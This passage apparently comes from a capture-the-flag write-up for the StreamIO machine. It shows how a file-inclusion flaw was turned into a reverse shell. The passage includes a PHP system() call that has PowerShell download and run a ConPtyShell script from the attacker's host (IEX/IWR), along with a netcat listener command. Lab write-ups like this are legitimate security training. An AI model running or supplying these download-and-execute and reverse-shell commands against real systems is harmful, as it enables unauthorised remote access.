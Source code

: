 <figure><img src="../../.gitbook/assets/streamio_rce.png" alt=""><figcaption><p>Figure 30: Achieving RCE through the LFI vulnerability.</p></figcaption></figure>

We are now ready to get our foothold using the [ConPtyShell](https://github.com/antonioCoco/ConPtyShell). In order for this to work, we need to:

1. Create a file (`revshell.ps1`) and copy-paste [`ConPtyShell.ps1`](https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1)'s code into it.
2. Create a file (`test.php`) by slightly modifying the [Client Side code (Method 1)](https://github.com/antonioCoco/ConPtyShell?tab=readme-ov-file#client-side) provided on the repo:
   * We need to invoke Powershell via PHP so it can execute `revshell.ps1`, as the web application only executes PHP files.
   * The target does not have internet connectivity, so it will have to download the PowerShell script from our server.
3. Open a listener on our attack host using the [Server Side code (Method 1)](https://github.com/antonioCoco/ConPtyShell?tab=readme-ov-file#server-side).

All we have to do now is send the `POST` request pointing to the `test.php` file on our web server. The `test.php` script will be then evaluated and this will result in downloading `revshell.ps1` and subsequently executing it which in turn will give us a reverse shell connection back to our listener.

{% code overflow="wrap" %}
```powershell
# The content of the test.php file
system("powershell IEX(IWR http://10.10.14.121/revshell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.121 1337");
# Setting up the listener
stty raw -echo; (stty size; cat) | nc -lvnp 1337
```
{% endcode %}
